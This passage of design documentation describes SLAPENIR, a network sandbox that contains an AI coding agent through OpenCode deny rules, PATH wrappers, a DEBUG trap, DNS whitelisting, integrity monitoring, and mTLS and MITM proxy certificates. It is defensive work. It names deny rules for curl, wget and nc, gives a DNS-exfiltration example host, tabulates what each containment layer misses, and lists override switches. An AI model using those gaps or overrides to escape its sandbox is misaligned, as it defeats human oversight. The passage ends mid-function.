#### 6.3 Detection in Build Allow Logic

The detection library is used by `build-wrapper.sh` to enforce the "block during OpenCode, allow in interactive shell" policy. If OpenCode is **not** detected and the shell is interactive (`[ -t 0 ]`) with no session ID, builds are allowed without an override — assuming a human is directly operating the shell.

---

### 7. 3-Layer Build Control Flowchart

The build control system enforces network isolation through three independent layers. Each layer catches scenarios that the others miss:

```mermaid
flowchart TD
    CMD["User/AI executes:<br/>gradle build"] --> L1{"Layer 1: OpenCode<br/>Permission Model"}

    L1 --> | deny curl, wget, nc | BLOCK1["BLOCKED<br/>OpenCode deny rule"]
    L1 --> | deny gradle, npm, pip | BLOCK2["BLOCKED<br/>OpenCode deny rule"]
    L1 --> | allow: ALLOW_BUILD=1 gradle | L2{"Layer 2: Build Wrapper"}
    L1 --> | allow: curl not in deny list | L2

    L2 --> | Wrapper script<br/>on $PATH | CHECK{"is_build_allowed()?"}
    CHECK --> | ALLOW_BUILD=1 | ALLOW["ALLOWED"]
    CHECK --> | OpenCode active<br/>+ no override | BLOCK3["BLOCKED<br/>show_build_blocked_message()"]
    CHECK --> | Interactive shell<br/>+ no OpenCode | ALLOW

    ALLOW --> NET{"netctl enable"}
    NET --> RULE["Insert ACCEPT<br/>before proxy DROP"]
    NET --> NAT["Create NAT redirect<br/>80/443 → 3000"]
    NET --> ENV["Set HTTP_PROXY<br/>HTTPS_PROXY"]
    NET --> RUN["Execute real tool<br/>(tool.real)"]
    RUN --> DONE["netctl disable<br/>Remove rules<br/>Delete lock"]

    style BLOCK1 fill:#c0392b,color:#fff
    style BLOCK2 fill:#c0392b,color:#fff
    style BLOCK3 fill:#c0392b,color:#fff
    style ALLOW fill:#27ae60,color:#fff
    style DONE fill:#27ae60,color:#fff
```

#### 7.1 Layer Responsibilities

| Layer | Mechanism | Catches | Misses |
| --- | --- | --- | --- |
| 1: OpenCode | `opencode.json` deny rules | Commands initiated by AI agent | Commands from interactive shell |
| 2: Wrapper | `$PATH` shadow scripts | Commands resolved via PATH | Pathname execution (`./gradlew`) |
| 3: DEBUG trap | BASH_ENV + `trap DEBUG` | All bash commands including pathname | Non-bash executables, direct system calls |

The three layers are complementary: OpenCode provides the first gate, wrappers provide the second, and the DEBUG trap provides the safety net for pathname-executed scripts.

---

### 8. DNS Filtering

#### 8.1 Whitelist Enforcement

DNS queries are restricted to three trusted resolvers. All other DNS traffic is logged and dropped:

**Ref:** `agent/scripts/traffic-enforcement.sh:91-107`

```bash
iptables -A TRAFFIC_ENFORCE -p udp --dport 53 -d 8.8.8.8 -j ACCEPT
iptables -A TRAFFIC_ENFORCE -p udp --dport 53 -d 8.8.4.4 -j ACCEPT
iptables -A TRAFFIC_ENFORCE -p tcp --dport 53 -d 8.8.8.8 -j ACCEPT
iptables -A TRAFFIC_ENFORCE -p tcp --dport 53 -d 8.8.4.4 -j ACCEPT

iptables -A TRAFFIC_ENFORCE -p udp --dport 53 -d 1.1.1.1 -j ACCEPT
iptables -A TRAFFIC_ENFORCE -p tcp --dport 53 -d 1.1.1.1 -j ACCEPT

iptables -A TRAFFIC_ENFORCE -p udp --dport 53 -j LOG --log-prefix "[DNS-BLOCK] " --log-level 4
iptables -A TRAFFIC_ENFORCE -p tcp --dport 53 -j LOG --log-prefix "[DNS-BLOCK] " --log-level 4
iptables -A TRAFFIC_ENFORCE -p udp --dport 53 -j DROP
iptables -A TRAFFIC_ENFORCE -p tcp --dport 53 -j DROP
```

#### 8.2 DNS Exfiltration Prevention

DNS exfiltration encodes data in DNS query hostnames (e.g., `ghp_secret.attacker.com`). The whitelist-only DNS policy prevents this because:

| Resolver | Owner | Trusted? |
| --- | --- | --- |
| 8.8.8.8 / 8.8.4.4 | Google | Yes — public recursive resolvers |
| 1.1.1.1 | Cloudflare | Yes — public recursive resolvers |
| Any other | Unknown | **No — logged and dropped** |

An attacker-controlled DNS server cannot be reached because its IP would not match the whitelist rules. The `LOG` rule before `DROP` ensures every blocked DNS attempt is recorded for forensic analysis.

#### 8.3 TCP DNS Support

Both UDP (standard) and TCP (fallback) DNS are allowed to trusted servers. TCP DNS is used when response sizes exceed UDP limits (512 bytes). Some DNS-based exfiltration tools use TCP, so both protocols must be filtered.

---

### 9. NAT Redirect (Transparent Proxy)

#### 9.1 Transparent Redirection During ALLOW_BUILD

When `ALLOW_BUILD=1` is active, the `network-enable.sh` script creates NAT rules that transparently redirect HTTP (port 80) and HTTPS (port 443) traffic to the proxy's port 3000:

**Ref:** `agent/scripts/network-enable.sh:64-75`

```bash
if ! iptables -t nat -L TRAFFIC_REDIRECT -n >/dev/null 2>&1; then
    iptables -t nat -N TRAFFIC_REDIRECT
fi

if [ "$(iptables -t nat -L TRAFFIC_REDIRECT -n 2>/dev/null | grep -c REDIRECT)" -eq 0 ]; then
    iptables -t nat -A TRAFFIC_REDIRECT -p tcp --dport 80 -j REDIRECT --to-ports "$PROXY_PORT"
    iptables -t nat -A TRAFFIC_REDIRECT -p tcp --dport 443 -j REDIRECT --to-ports "$PROXY_PORT"
fi

if ! iptables -t nat -L OUTPUT -n 2>/dev/null | grep -q TRAFFIC_REDIRECT; then
    iptables -t nat -I OUTPUT 1 -j TRAFFIC_REDIRECT
fi
```

#### 9.2 Why NAT Redirect Is Needed

Build tools often make HTTP requests using direct URL connections rather than respecting `HTTP_PROXY` environment variables. For example:

- Maven downloads POM files from `repo.maven.apache.org:80`
- npm fetches packages from `registry.npmjs.org:80`
- Gradle resolves dependencies from `services.gradle.org:443`

The NAT redirect ensures these tools reach the proxy even if they don't read the `HTTP_PROXY` variable. The proxy then determines the real target from the `Host` header and forwards the request.

#### 9.3 NAT State Lifecycle

| Event | NAT Chain State | Proxy iptables State |
| --- | --- | --- |
| Container starts | No `TRAFFIC_REDIRECT` chain | Proxy IP DROPped (LOCKED) |
| `ALLOW_BUILD=1` detected | Chain created, ports 80/443 redirected to 3000 | ACCEPT inserted before DROP |
| Build completes | Chain flushed and deleted | ACCEPT removed, DROP restored |

---

### 10. Runtime Integrity Monitoring

#### 10.1 Background Monitor

A background process (`runtime-monitor.sh`) runs continuously, verifying the iptables chain integrity every 30 seconds:

**Ref:** `agent/scripts/runtime-monitor.sh:33-102`

```bash
while true; do
    if ! command -v iptables > /dev/null 2>&1; then
        log "CRITICAL: iptables command not available!"
        FAILURE_COUNT=$((FAILURE_COUNT + 1))
    elif ! iptables -L TRAFFIC_ENFORCE -n > /dev/null 2>&1; then
        log "CRITICAL: TRAFFIC_ENFORCE chain missing!"
        FAILURE_COUNT=$((FAILURE_COUNT + 1))
    elif ! iptables -L TRAFFIC_ENFORCE -n | grep -q "DROP"; then
        log "CRITICAL: DROP rule missing from TRAFFIC_ENFORCE chain!"
        FAILURE_COUNT=$((FAILURE_COUNT + 1))
    else
        RULE_COUNT=$(iptables -L TRAFFIC_ENFORCE -n | grep -c "^" | | echo "0")
        if [ "$RULE_COUNT" -lt 10 ]; then
            log "CRITICAL: Too few rules in TRAFFIC_ENFORCE ($RULE_COUNT)"
            FAILURE_COUNT=$((FAILURE_COUNT + 1))
        else
            if [ $FAILURE_COUNT -gt 0 ]; then
                log "Traffic enforcement restored (was failing)"
            fi
            FAILURE_COUNT=0
        fi
    fi

    if [ $FAILURE_COUNT -ge $MAX_FAILURES ]; then
        log "EMERGENCY: Traffic enforcement failed $FAILURE_COUNT consecutive checks!"
        log "EMERGENCY: Initiating emergency shutdown to prevent data leakage"

        if command -v s6-svc > /dev/null 2>&1; then
            s6-svc -d /run/service/agent-svc 2>/dev/null | | true
        fi

        pkill -U agent | | true
        exit 1
    fi

    sleep "$CHECK_INTERVAL"
done
```

#### 10.2 Checks Performed

| Check | Frequency | Failure Action |
| --- | --- | --- |
| `iptables` command available | 30s | Increment failure counter |
| `TRAFFIC_ENFORCE` chain exists | 30s | Increment failure counter |
| DROP rule present in chain | 30s | Increment failure counter |
| Rule count >= 10 | 30s | Increment failure counter |
| Bypass attempts in kernel log | 30s | Log to `/tmp/bypass-attempts.log` |
| DNS block events in kernel log | 30s | Log warning |
| **3 consecutive failures** | — | **Emergency shutdown** |

#### 10.3 Emergency Shutdown Procedure

When 3 consecutive integrity checks fail, the monitor:

1. Logs the emergency event
2. Stops the agent service via s6 (`s6-svc -d`)
3. Kills all processes owned by the `agent` user (`pkill -U agent`)
4. Exits with error code

This is a fail-closed response: if traffic enforcement cannot be verified, the agent is terminated to prevent potential data leakage through a compromised iptables configuration.

---

### 11. Emergency Shutdown

#### 11.1 Host-Level Shutdown

From the host, `make shell-unrestricted` flushes all iptables rules in the agent container, providing unrestricted network access for debugging:

**Ref:** `agent/scripts/traffic-enforcement.sh:174-175`

```text
To enable internet access:
  ALLOW_BUILD=1 <command>   (build wrappers enable automatically)
  make shell-unrestricted    (flushes all iptables rules)
```

#### 11.2 Container-Level Shutdown

From within the container, the following mechanisms trigger network shutdown:

| Trigger | Mechanism | Scope |
| --- | --- | --- |
| Build completes | `_disable_network_after_build()` via wrapper | Removes proxy ACCEPT + NAT chain |
| Shell command completes | `_slapenir_precmd` via PROMPT_COMMAND / EXIT trap | Same as above |
| Runtime monitor failure | Emergency shutdown (3 consecutive failures) | Stops agent service + kills all agent processes |
| Container restart | s6-overlay re-runs `traffic-enforcement.sh` | Full chain rebuild from clean state |

---

### Key Takeaways

1. **Proxy is DROPped by default.** Rule 13 is the architectural cornerstone — the proxy IP is explicitly blocked in iptables, evaluated before the Docker network ALLOW rule. No application-level configuration can bypass this; only `netctl enable` (setuid root) can insert an ACCEPT before the DROP.

2. **Three-layer build control provides defense-in-depth.** OpenCode deny rules catch AI-initiated commands, `$PATH` wrappers catch tool invocations, and the BASH_ENV DEBUG trap catches pathname-executed scripts (`./gradlew`). Each layer covers the gaps in the others. For certificate management and rotation procedures, see [Section 7: mTLS & Certificate Architecture](#section-7-mtls--certificate-architecture).

3. **NAT transparent proxying ensures complete coverage.** Build tools that ignore `HTTP_PROXY` are caught by NAT rules redirecting ports 80/443 to the proxy. This eliminates the "but Maven doesn't respect proxy variables" class of problems.

4. **DNS is a controlled channel.** Only 3 resolvers are whitelisted; all other DNS is logged and dropped. This prevents the entire class of DNS-based data exfiltration attacks.

5. **Runtime integrity monitoring provides active defense.** A background process verifies iptables integrity every 30 seconds and initiates emergency shutdown (kill all agent processes) after 3 consecutive failures — ensuring that even a runtime iptables corruption is detected and contained.

6. **Network enable is always temporary.** Every `netctl enable` has a matching `netctl disable` — triggered by build completion, shell prompt, or EXIT trap. There is no persistent open state; the lock file ensures idempotency but the NAT chain is always flushed when the build completes.

---

# Section 7: mTLS & Certificate Architecture

### Overview

SLAPENIR uses two distinct TLS architectures operating in parallel: (1) **Step-CA mTLS** for mutual authentication between the agent and proxy on the Docker network, and (2) an **internal MITM Certificate Authority** for intercepting HTTPS traffic on ports 443/8443 to perform credential injection and sanitization on encrypted payloads. This document covers the Step-CA initialization, certificate enrollment via `step` CLI, the mTLS server and client configuration, the MITM certificate generation pipeline, the LRU certificate cache, SNI-based hostname extraction, and the certificate chain trust model.

---

### 1. Step-CA Initialization

#### 1.1 Container Configuration

Step-CA (Smallstep) runs as a dedicated container on the `slape-net` network, initialized via Docker environment variables:

**Ref:** `docker-compose.yml:8-28`

```yaml
step-ca:
  image: smallstep/step-ca:latest
  container_name: slapenir-ca
  hostname: ca
  networks:

    - slape-net

  ports:

    - "9000:9000"

  volumes:

    - step-ca-config:/home/step

  environment:

    - DOCKER_STEPCA_INIT_NAME=SLAPENIR-CA
    - DOCKER_STEPCA_INIT_DNS_NAMES=ca,step-ca,localhost
    - DOCKER_STEPCA_INIT_PROVISIONER_NAME=admin
    - DOCKER_STEPCA_INIT_PASSWORD=${STEPCA_PASSWORD}
    - DOCKER_STEPCA_INIT_ADDRESS=:9000

  healthcheck:
    test: ["CMD", "step", "ca", "health"]
    interval: 10s
    timeout: 5s
    retries: 5
```

#### 1.2 CA Configuration

**Ref:** `ca-data/config/ca.json`

| Parameter | Value | Purpose |
| --- | --- | --- |
| Root cert | `/home/step/certs/root_ca.crt` | Self-signed root CA |
| Intermediate cert | `/home/step/certs/intermediate_ca.crt` | Intermediate signing cert |
| Intermediate key | `/home/step/secrets/intermediate_ca_key` | Private key for signing |
| Address | `:9000` | HTTPS listener |
| DNS names | `ca`, `step-ca`, `localhost` | SAN for CA endpoint |
| Database | BadgerDB v2 at `/home/step/db` | Certificate status tracking |
| TLS min version | 1.2 | Minimum TLS version |
| TLS max version | 1.3 | Maximum TLS version |
| Cipher suites | `CHACHA20_POLY1305_SHA256`, `AES_128_GCM_SHA256` | ECDHE-only, forward secrecy |

#### 1.3 Provisioner

The CA uses a JWK provisioner (`admin`) with ECDSA P-256 / ES256 for token-based certificate enrollment:

**Ref:** `ca-data/config/ca.json:22-36`

```json
{
    "type": "JWK",
    "name": "admin",
    "key": {
        "use": "sig",
        "kty": "EC",
        "kid": "XrF3WHlcaskT_7uPsNPONJYeK8gf6I4RqJGwaFYG1WI",
        "crv": "P-256",
        "alg": "ES256"
    },
    "encryptedKey": "eyJhbGciOiJQQkVTMi1IUzI1NitBMTI4S1ci..."
}
```

The encrypted key is protected with PBES2-HS256+A128KW wrapping, requiring the CA password to decrypt.

#### 1.4 Certificate Bootstrapping Sequence

```mermaid
sequenceDiagram
    participant DC as docker compose
    participant CA as step-ca :9000
    participant DB as BadgerDB
    participant PX as proxy
    participant AG as agent

    DC->>CA: Start container
    activate CA
    CA->>CA: Generate root CA<br/>(DOCKER_STEPCA_INIT_NAME=SLAPENIR-CA)
    CA->>CA: Generate intermediate CA
    CA->>CA: Initialize JWK provisioner ("admin")
    CA->>DB: Open BadgerDB at /home/step/db
    CA->>CA: Health check: step ca health (10s interval)
    CA-->>DC: Healthy

    DC->>PX: Start proxy (depends_on: step-ca healthy)
    activate PX
    PX->>CA: step ca certificate proxy.slapenir.local
    CA-->>PX: proxy.crt + proxy.key (signed by intermediate)
    PX->>CA: step ca root
    CA-->>PX: root_ca.crt

    DC->>AG: Start agent (depends_on: proxy healthy)
    activate AG
    AG->>AG: bootstrap-certs.sh
    AG->>CA: step ca bootstrap --ca-url https://ca:9000
    CA-->>AG: Root CA fingerprint
    AG->>CA: step ca certificate agent.slapenir.local<br/>--provisioner admin --token $STEP_TOKEN
    CA-->>AG: cert.pem + key.pem (valid 720h)
    AG->>CA: step ca root
    CA-->>AG: root_ca.pem
```

---

### 2. Certificate Enrollment

#### 2.1 Agent Enrollment Process

The agent obtains its client certificate through a token-based enrollment process using the `step` CLI:

**Ref:** `agent/scripts/bootstrap-certs.sh:1-67`

```bash
CERT_DIR="/home/agent/certs"
CA_URL="${STEP_CA_URL:-https://ca:9000}"
PROVISIONER="${STEP_PROVISIONER:-agent-provisioner}"

if [ -z "$STEP_TOKEN" ]; then
    echo "[bootstrap] ERROR: STEP_TOKEN environment variable not set"
    exit 1
fi

mkdir -p "$CERT_DIR"

step ca bootstrap \
    --ca-url "$CA_URL" \
    --fingerprint "${STEP_FINGERPRINT:-auto}" \
    --install \
    | | {
        echo "[bootstrap] WARNING: Failed to bootstrap CA"
    }

step ca certificate \
    "agent.slapenir.local" \
    "$CERT_DIR/cert.pem" \
    "$CERT_DIR/key.pem" \
    --provisioner "$PROVISIONER" \
    --token "$STEP_TOKEN" \
    --ca-url "$CA_URL" \
    --not-after "720h" \
    | | {
        echo "[bootstrap] ERROR: Failed to obtain certificate from CA"
        exit 1
    }

step ca root "$CERT_DIR/root_ca.pem" \
    --ca-url "$CA_URL"

chmod 600 "$CERT_DIR/key.pem"
chmod 644 "$CERT_DIR/cert.pem" "$CERT_DIR/root_ca.pem"
```

#### 2.2 Enrollment Parameters

| Parameter | Value | Purpose |
| --- | --- | --- |
| Common Name | `agent.slapenir.local` | Identifies the agent in TLS handshake |
| Validity | 720h (30 days) | Short-lived cert; requires periodic renewal |
| Provisioner | `agent-provisioner` | Scoped provisioner for agent certificates |
| Token | `$STEP_TOKEN` (from docker-compose env) | One-time enrollment token |
| Key permissions | `600` (private key), `644` (certs) | Private key readable only by owner |

#### 2.3 Certificate Storage

Certificates are stored in Docker named volumes:

| Volume | Mount Point | Contents |
| --- | --- | --- |
| `slapenir-proxy-certs` | `/certs` (proxy, read-only) | `root_ca.crt`, `proxy.crt`, `proxy.key` |
| `slapenir-agent-certs` | `/certs` (agent, read-only) | `root_ca.pem`, `cert.pem`, `key.pem` |
| `slapenir-ca-config` | `/home/step` (CA) | CA config, database, root/intermediate certs |

All certificate volumes are labeled `slapenir.mtls=enabled` for audit tracking.

---

### 3. Certificate Chain

#### 3.1 Trust Hierarchy

```text
Root CA (SLAPENIR-CA)
  └── Intermediate CA
        ├── Server Certificate: proxy.slapenir.local
        │     Used by: proxy for accepting mTLS connections
        │     SAN: proxy.slapenir.local, proxy, localhost
        │
        └── Client Certificate: agent.slapenir.local
              Used by: agent for authenticating to proxy
              SAN: agent.slapenir.local, agent
              Validity: 720h (30 days)
```

#### 3.2 Certificate Chain Diagram

```mermaid
graph TD
    ROOT["Root CA<br/>SLAPENIR-CA<br/>ECDSA P-256<br/>Self-signed"]

    INT["Intermediate CA<br/>ECDSA P-256<br/>Signed by Root CA"]

    PROXY["Server Certificate<br/>CN=proxy.slapenir.local<br/>Signed by Intermediate CA<br/>Used for: mTLS server"]

    AGENT["Client Certificate<br/>CN=agent.slapenir.local<br/>Signed by Intermediate CA<br/>Validity: 720h<br/>Used for: mTLS client"]

    ROOT --> | signs | INT
    INT --> | signs | PROXY
    INT --> | signs | AGENT

    PROXY -.-> | presents to agent | VERIFY1["Agent verifies:<br/>proxy.crt → intermediate → root"]
    AGENT -.-> | presents to proxy | VERIFY2["Proxy verifies:<br/>cert.pem → intermediate → root"]

    style ROOT fill:#8e44ad,color:#fff
    style INT fill:#9b59b6,color:#fff
    style PROXY fill:#2980b9,color:#fff
    style AGENT fill:#d35400,color:#fff
    style VERIFY1 fill:#27ae60,color:#fff
    style VERIFY2 fill:#27ae60,color:#fff
```

#### 3.3 Trust Store Configuration

Both proxy and agent mount the root CA certificate. Verification follows the chain: presented cert → intermediate CA → root CA.

| Component | Root CA Location | Own Cert | Trusts |
| --- | --- | --- | --- |
| Proxy | `/certs/root_ca.crt` | `/certs/proxy.crt` + `/certs/proxy.key` | Client certs signed by the same CA |
| Agent | `/certs/root_ca.pem` | `/certs/agent.crt` + `/certs/agent.key` | Server certs signed by the same CA |
| Step-CA | `/home/step/certs/root_ca.crt` | Intermediate CA cert + key | All certificates it issues |

---

### 4. mTLS Server Configuration (Proxy)

#### 4.1 MtlsConfig Initialization

The proxy loads its mTLS configuration from certificate files at startup:

**Ref:** `proxy/src/mtls.rs:39-103`

```rust
pub fn from_files(
    ca_cert_path: &str,
    server_cert_path: &str,
    server_key_path: &str,
    enforce: bool,
) -> Result<Self, Box<dyn std::error::Error>> {
    let ca_cert_pem = std::fs::read(ca_cert_path)?;
    let ca_certs =
        rustls_pemfile::certs(&mut &ca_cert_pem[..]).collect::<Result<Vec<_>, _>>()?;
    let ca_cert = ca_certs
        .into_iter()
        .next()
        .ok_or("No CA certificate found")?;

    let mut root_store = RootCertStore::empty();
    root_store.add(ca_cert.clone())?;

    let server_cert_pem = std::fs::read(server_cert_path)?;
    let server_certs: Vec<CertificateDer> =
        rustls_pemfile::certs(&mut &server_cert_pem[..]).collect::<Result<Vec<_>, _>>()?;

    let server_key_pem = std::fs::read(server_key_path)?;
    let server_key =
        rustls_pemfile::private_key(&mut &server_key_pem[..])?.ok_or("No private key found")?;

    let client_verifier = if enforce {
        WebPkiClientVerifier::builder(Arc::new(root_store.clone()))
            .build()
            .map_err( | e | format!("Failed to build client verifier: {}", e))?
    } else {
        WebPkiClientVerifier::builder(Arc::new(root_store.clone()))
            .build()
            .map_err( | e | format!("Failed to build client verifier: {}", e))?
    };

    let server_config = ServerConfig::builder()
        .with_client_cert_verifier(client_verifier)
        .with_single_cert(server_certs, server_key)?;

    let client_config = ClientConfig::builder()
        .with_root_certificates(root_store)
        .with_no_client_auth();

    Ok(MtlsConfig {
        server_config: Arc::new(server_config),
        client_config: Arc::new(client_config),
        enforce,
    })
}
```

#### 4.2 Configuration Parameters

**Ref:** `docker-compose.yml:139-146`

```yaml

- MTLS_ENABLED=${MTLS_ENABLED:-false}
- MTLS_ENFORCE=${MTLS_ENFORCE:-false}
- MTLS_CA_CERT=/certs/root_ca.crt
- MTLS_SERVER_CERT=/certs/proxy.crt
- MTLS_SERVER_KEY=/certs/proxy.key

```

| Variable | Default | Purpose |
| --- | --- | --- |
| `MTLS_ENABLED` | `false` | Enable mTLS for proxy-agent connections |
| `MTLS_ENFORCE` | `false` | Reject connections without valid client certs |
| `MTLS_CA_CERT` | `/certs/root_ca.crt` | Root CA for verifying client certs |
| `MTLS_SERVER_CERT` | `/certs/proxy.crt` | Proxy's server certificate |
| `MTLS_SERVER_KEY` | `/certs/proxy.key` | Proxy's private key |

#### 4.3 Enforcement Modes

| Mode | `MTLS_ENABLED` | `MTLS_ENFORCE` | Behavior |
| --- | --- | --- | --- |
| Disabled | `false` | — | No TLS between agent and proxy |
| Opportunistic | `true` | `false` | TLS with optional client cert |
| Strict | `true` | `true` | TLS with mandatory client cert verification |

#### 4.4 mTLS Handshake Sequence

```mermaid
sequenceDiagram
    participant AG as Agent
    participant PX as Proxy :3000
    participant CA as Step-CA :9000

    Note over AG,PX: mTLS Enabled + Enforced

    AG->>PX: TLS ClientHello<br/>SNI: proxy.slapenir.local<br/>Client cert: agent.slapenir.local
    PX->>PX: WebPkiClientVerifier<br/>Verify client cert chain:<br/>agent.crt → intermediate → root_ca
    PX-->>AG: TLS ServerHello<br/>Server cert: proxy.slapenir.local
    AG->>AG: Verify server cert chain:<br/>proxy.crt → intermediate → root_ca

    alt Client cert valid
        PX-->>AG: TLS handshake complete<br/>mutual authentication established
        AG->>PX: HTTP request (over mTLS)
        PX-->>AG: HTTP response (over mTLS)
    else Client cert invalid or missing
        PX-->>AG: TLS alert: handshake_failure
        Note over AG: Connection rejected
    end
```

---

### 5. TLS MITM Certificate Generation

#### 5.1 When MITM Is Activated

TLS MITM is activated for CONNECT tunnel requests to ports 443 and 8443 — but **only when `ALLOW_BUILD` is not set**. When `ALLOW_BUILD=1`, all traffic uses passthrough mode (no MITM), because build tool traffic does not need credential injection:

**Ref:** `proxy/src/connect.rs:105-115`

```rust
fn should_intercept_tls(destination: &str) -> bool {
    if is_allow_build_enabled() {
        info!(
            "ALLOW_BUILD mode enabled - using passthrough for {}",
            destination
        );
        return false;
    }
    destination.ends_with(":443") | | destination.ends_with(":8443")
}
```

#### 5.2 Certificate Authority for MITM

The proxy maintains its own internal CA (separate from Step-CA) for generating on-the-fly certificates for intercepted HTTPS hosts:

**Ref:** `proxy/src/tls/ca.rs:20-49`

```rust
pub fn generate() -> Result<Self, TlsError> {
    let mut params = CertificateParams::default();

    params.distinguished_name = DistinguishedName::new();
    params
        .distinguished_name
        .push(DnType::CommonName, "SLAPENIR Proxy CA");
    params
        .distinguished_name
        .push(DnType::OrganizationName, "SLAPENIR");

    params.is_ca = IsCa::Ca(BasicConstraints::Unconstrained);

    let cert = Certificate::from_params(params)
        .map_err( | e | TlsError::CertGeneration(e.to_string()))?;

    let cert_pem = cert
        .serialize_pem()
        .map_err( | e | TlsError::CertGeneration(e.to_string()))?;
    let key_pem = cert.serialize_private_key_pem();

    Ok(Self {
        cert,
        cert_pem,
        key_pem,
    })
}
```

#### 5.3 Per-Host Certificate Signing

When a CONNECT tunnel to port 443/8443 is established, the MITM CA signs a certificate for the target hostname on-the-fly:

**Ref:** `proxy/src/tls/ca.rs:52-102`

```rust
pub fn sign_for_host(&self, hostname: &str) -> Result<HostCertificate, TlsError> {
    let mut params = CertificateParams::new(vec![hostname.to_string()]);

    params.distinguished_name = DistinguishedName::new();
    params.distinguished_name.push(DnType::CommonName, hostname);

    params.subject_alt_names = vec![SanType::DnsName(hostname.to_string())];

    use std::sync::atomic::{AtomicU64, Ordering};
    use std::time::{SystemTime, UNIX_EPOCH};
    static SERIAL_COUNTER: AtomicU64 = AtomicU64::new(0);

    let timestamp = SystemTime::now()
        .duration_since(UNIX_EPOCH)
        .unwrap()
        .as_micros() as u64;
    let counter = SERIAL_COUNTER.fetch_add(1, Ordering::SeqCst);

    let serial_num = timestamp.wrapping_add(counter);
    let serial_bytes = serial_num.to_be_bytes().to_vec();
    params.serial_number = Some(rcgen::SerialNumber::from_slice(&serial_bytes));

    let cert = Certificate::from_params(params)
        .map_err( | e | TlsError::CertGeneration(e.to_string()))?;

    let cert_pem = cert
        .serialize_pem_with_signer(&self.cert)
        .map_err( | e | TlsError::CertGeneration(e.to_string()))?;
    let key_pem = cert.serialize_private_key_pem();

    Ok(HostCertificate {
        hostname: hostname.to_string(),
        cert_pem,
        key_pem,
        serial: cert.get_params().serial_number
            .as_ref()
            .map( | sn | sn.to_bytes().to_vec())
            .unwrap_or_default(),
    })
}
```

Each generated certificate includes:

- **Common Name** matching the target hostname (e.g., `api.github.com`)
- **SAN (Subject Alternative Name)** with DNS name matching the hostname
- **Unique serial number** derived from microsecond timestamp + atomic counter
- **Signed by** the internal MITM CA (not Step-CA)

#### 5.4 CA Persistence

The MITM CA is loaded from disk if available, or generated on first use:

**Ref:** `proxy/src/tls/ca.rs:153-161`

```rust
pub fn load_or_generate(cert_path: &Path, key_path: &Path) -> Result<Self, TlsError> {
    if cert_path.exists() && key_path.exists() {
        Self::load(cert_path, key_path)
    } else {
        let ca = Self::generate()?;
        ca.save(cert_path, key_path)?;
        Ok(ca)
    }
}
```

The CA cert and key are stored at `./ca-data/certs/ca.pem` and `./ca-data/certs/ca-key.pem`. The agent container trusts this CA, allowing the MITM-generated certificates to be accepted without browser-style warnings.

---

### 6. LRU Certificate Cache

#### 6.1 Cache Architecture

Generating a certificate for each HTTPS host is computationally expensive (key generation + signing). The `CertificateCache` stores generated certificates in an LRU (Least Recently Used) cache with a default capacity of 1000 entries:

**Ref:** `proxy/src/tls/cache.rs:10-77`

```rust
struct CacheEntry {
    certificate: Arc<HostCertificate>,
    last_accessed: std::time::Instant,
}

pub struct CertificateCache {
    cache: Arc<RwLock<HashMap<String, CacheEntry>>>,
    max_capacity: usize,
}

impl CertificateCache {
    const DEFAULT_CAPACITY: usize = 1000;

    pub async fn get_or_create(
        &self,
        hostname: &str,
        ca: &Arc<CertificateAuthority>,
    ) -> Result<Arc<HostCertificate>, TlsError> {
        {
            let mut cache = self.cache.write().await;
            if let Some(entry) = cache.get_mut(hostname) {
                entry.last_accessed = std::time::Instant::now();
                return Ok(entry.certificate.clone());
            }
        }

        let cert = ca.sign_for_host(hostname)?;
        let cert_arc = Arc::new(cert);

        {
            let mut cache = self.cache.write().await;

            if cache.len() >= self.max_capacity {
                self.evict_lru(&mut cache);
            }

            cache.insert(
                hostname.to_string(),
                CacheEntry {
                    certificate: cert_arc.clone(),
                    last_accessed: std::time::Instant::now(),
                },
            );
        }

        Ok(cert_arc)
    }
}
```

#### 6.2 TLS MITM Certificate Caching Flowchart

```mermaid
flowchart TD
    CONNECT["CONNECT tunnel<br/>to api.github.com:443"] --> SNI["Extract SNI from ClientHello"]
    SNI --> CHECK{"Hostname in<br/>certificate cache?"}
    CHECK --> | Yes cache hit | RETURN["Return cached<br/>HostCertificate"]
    CHECK --> | No cache miss | GEN["Generate new certificate:<br/>CA.sign_for_host(hostname)"]

    GEN --> EVICT{"Cache full?<br/>(>= 1000 entries)"}
    EVICT --> | Yes | LRU["Evict LRU entry<br/>(oldest last_accessed)"]
    EVICT --> | No | STORE
    LRU --> STORE["Store in cache<br/>with current timestamp"]
    STORE --> RETURN

    RETURN --> TLS["Build ServerConfig<br/>from HostCertificate"]
    TLS --> HANDSHAKE["Accept TLS connection<br/>with generated cert"]

    style CHECK fill:#f39c12,color:#fff
    style GEN fill:#2980b9,color:#fff
    style RETURN fill:#27ae60,color:#fff
    style LRU fill:#e67e22,color:#fff
```

#### 6.3 Cache Properties

| Property | Value | Rationale |
| --- | --- | --- |
| Default capacity | 1000 hostnames | Covers most API endpoints |
| Eviction policy | LRU (timestamp-based) | Frequently accessed certs stay cached |
| Thread safety | `Arc<RwLock<...>>` | Async-safe read/write locking |
| Key | Hostname string | Exact match (case-sensitive) |
| Value | `Arc<HostCertificate>` | Shared ownership for concurrent use |
| Serial uniqueness | Microsecond timestamp + atomic counter | No collisions across threads |

#### 6.4 LRU Eviction

When the cache reaches capacity, the least recently accessed entry is evicted:

**Ref:** `proxy/src/tls/cache.rs:80-94`

```rust
fn evict_lru(&self, cache: &mut HashMap<String, CacheEntry>) {
    if cache.is_empty() {
        return;
    }

    let lru_key = cache
        .iter()
        .min_by_key( | (_, entry) | entry.last_accessed)
        .map( | (key, _) | key.clone());

    if let Some(key) = lru_key {
        cache.remove(&key);
    }
}
```

---

### 7. Hostname Verification

#### 7.1 SNI Extraction from ClientHello

Before the MITM acceptor can generate a certificate, it must know which hostname the client is connecting to. This is extracted from the TLS ClientHello's SNI (Server Name Indication) extension:

**Ref:** `proxy/src/tls/acceptor.rs:96-186`

```rust
pub fn extract_sni(client_hello: &[u8]) -> Option<String> {
    if client_hello.len() < 43 {
        return None;
    }

    if client_hello[0] != 0x16 {
        return None;
    }

    if client_hello[5] != 0x01 {
        return None;
    }

    let mut offset = 43;

    let session_id_len = client_hello[offset] as usize;
    offset += 1 + session_id_len;

    let cipher_suites_len =
        u16::from_be_bytes([client_hello[offset], client_hello[offset + 1]]) as usize;
    offset += 2 + cipher_suites_len;

    let compression_len = client_hello[offset] as usize;
    offset += 1 + compression_len;

    let extensions_len =
        u16::from_be_bytes([client_hello[offset], client_hello[offset + 1]]) as usize;
    offset += 2;

    let extensions_end = offset + extensions_len;
    while offset + 4 <= extensions_end && offset + 4 <= client_hello.len() {
